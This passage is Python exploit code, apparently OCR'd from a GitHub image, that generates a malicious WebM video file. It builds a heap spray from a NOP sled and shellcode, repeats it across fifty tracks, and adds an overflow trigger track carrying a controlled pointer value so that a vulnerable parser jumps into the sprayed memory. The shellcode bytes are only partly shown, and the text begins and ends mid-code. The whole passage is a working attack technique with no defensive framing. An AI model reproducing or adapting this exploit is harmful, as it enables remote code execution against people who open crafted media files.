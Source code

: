 ```python
            b"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
            # ... shellcode continues
        )
        
        # NOP sled for landing zone
        nop_sled = b"\x90" * 1000
        
        # Spray payload: NOP sled + shellcode
        spray_chunk = nop_sled + shellcode
        
        # Pad to specific size for heap layout control
        spray_chunk += b"A" * (0x1000 - len(spray_chunk))
        
        return spray_chunk
    
    def create_overflow_tracks(self):
        """Create tracks to trigger heap overflow"""
        tracks = b""
        spray_payload = self.create_heap_spray_payload()
        
        # Create multiple tracks for heap spray
        for i in range(50):  # Spray heap with controlled data
            tracks += self.create_track_entry(
                track_id=i + 1,
                track_type=1,  # Video track
                codec_data=spray_payload
            )
        
        # Create overflow trigger track
        overflow_size = 0x10000  # Large allocation
        overflow_data = b"B" * 100  # Controlled data
        overflow_data += struct.pack('<I', 0x0C0C0C0C)  # Controlled pointer
        overflow_data += b"C" * (overflow_size - len(overflow_data))
        
        tracks += self.create_track_entry(
            track_id=999,
            track_type=1,
            codec_data=overflow_data
        )
        
        return tracks
    
    def generate_malicious_webm(self):
        """Generate complete malicious WebM file"""
        
        # File structure
        webm_file = self.ebml_header
        webm_file += self.segment_header
        
        # Tracks element
        tracks_data = self.create_overflow_tracks()
        tracks_element = b"\x16\x54\xAE\x6B"  # Tracks ID
        tracks_element += self.encode_size(len(tracks_data))
        tracks_element += tracks_data
        
        webm_file += tracks_element
        
        return webm_file
    
    def encode_size(self, size):
        """Encode size using EBML variable-length encoding"""
        if size < 0x7F:
            return struct.pack('B', 0x80 | size)
```